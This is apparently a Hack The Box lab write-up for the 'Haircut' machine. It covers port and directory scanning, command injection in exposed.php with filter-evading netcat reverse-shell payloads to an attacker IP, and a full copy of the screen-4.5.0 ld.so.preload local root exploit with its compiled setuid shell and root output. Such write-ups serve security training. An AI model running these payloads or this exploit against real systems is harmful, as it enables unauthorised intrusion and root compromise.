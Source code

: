 # HTB - Haircut  10.10.10.24



# nmap

```
# nmap -A 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-01 11:50 CEST
Nmap scan report for 10.10.10.24
Host is up (0.032s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```


nginx/1.10.0 (Ubuntu)

# gobuster

dirb, nikto give nothing

Install gobuster and runit
```
wget https://github.com/OJ/gobuster/releases/download/v3.0.1/gobuster-linux-amd64.7z
7z x gobuster-linux-amd64.7z
cd gobuster-linux-amd64.7z
./gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.16.27.142  -l -x html,php,js,txt
./gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.24 -l -x html,php,txt
/index.html (Status: 200) [Size: 144]
/uploads (Status: 301) [Size: 194]
/test.html (Status: 200) [Size: 223]
/hair.html (Status: 200) [Size: 141]
/exposed.php (Status: 200) [Size: 446]
```
![](screenshot/haircut_index.png)
![](screenshot/haircut_test.png)


# exposed.php

Preview of a web page
- no access to internet
- acces to Kali http server
- Bad hostname -> error msg with curl : curl: (6) Could not resolve host: localhoast

![](screenshot/haircut_exposed.png)


Try

`curl http://10.10.14.30/bob`  -> received in http serve log
`nc 10.10.14.30 4444 -e /bin/bash`   -> nc filtered
`n\c 10.10.14.30 4444 -e /bin/bash`  -> bash filtered
`n\c 10.10.14.30 4444 -e /bin/ba\sh`  -> OK

```
# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.24: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.24] 51388

whoami
www-data

pwd
/var/www/html

No python, use python3
python3 -c 'import pty; pty.spawn("/bin/bash")'  

Ctrl-Z

# In Kali
$ stty raw -echo
$ fg
```

# get User
```
cat Desktop/user.txt
 0b0da2af50e9ab7c81a6ec2c562afeae
pwd
/home/maria
```

# get root

```
uname -a
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

$ find / -perm -4000 2>/dev/null | xargs ls -al
-rwsr-xr-x 1 root   root       1588648 May 19  2017 /usr/bin/screen-4.5.0
www-data@haircut:~/html$ 
```

screen-4.5.0 permet d'écrire dans un ficheir arbitraire.
https://www.exploit-db.com/raw/41154

All in one script
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

Ne passe pas : pb de compilation, il faut le compiler à la main sur kali
cat libhax.c
```
// Set s bit on /tmp/rootshell
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
gcc -fPIC -shared -ldl -o libhax.so libhax.c


cat /tmp/rootshell.c
```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
gcc -o rootshell rootshell.c

Transfert compiled 64 bits files
python -m SimpleHTTPServer
wget 10.10.14.30:8000/libhax.so
wget 10.10.14.30:8000/rootshell

On créé /etc/
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!


Triggering, screen itself is setuid, so......
```
screen -ls  
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
There is a screen on:
	2787.pts-0.haircut	(Attached)
1 Socket in /tmp/screens/S-www-data.


ls -al /tmp
total 136
drwxrwxrwt 10 root     root      4096 Sep  1 17:42 .
drwxr-xr-x 23 root     root      4096 May 16  2017 ..
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .ICE-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .Test-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .X11-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .XIM-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .font-unix
-rwxr-xr-x  1 www-data www-data  1152 Sep  1 17:18 41154.sh
-rw-r--r--  1 www-data www-data   252 Sep  1 17:20 libhax.c
-rw-r--r--  1 www-data www-data 16136 Sep  1  2019 libhax.so
-rwxr-xr-x  1 www-data www-data 45652 Sep  1 15:44 linenum.sh
-rwsr-xr-x  1 root     root     16824 Sep  1  2019 rootshell
-rw-r--r--  1 www-data www-data   134 Sep  1 17:20 rootshell.c
drwxr-xr-x  3 root     www-data  4096 Sep  1 17:09 screens
drwx------  3 root     root      4096 Sep  1 11:39 systemd-private-1d6837ef12c04ec090043988a431440a-systemd-timesyncd.service-T5O7Br
drwx------  2 root     root      4096 Sep  1 11:39 vmware-root
www-data@haircut:/etc$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haircut:/etc$ /tmp
bash: /tmp: Is a directory
www-data@haircut:/etc$ /tmp/rootshell 
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/flag.txt
cat: /root/flag.txt: No such file or directory
# cd /root
# ls
root.txt
# cat root.txt
4cfa26d84b2220826a07f0697dc72151
# 

```

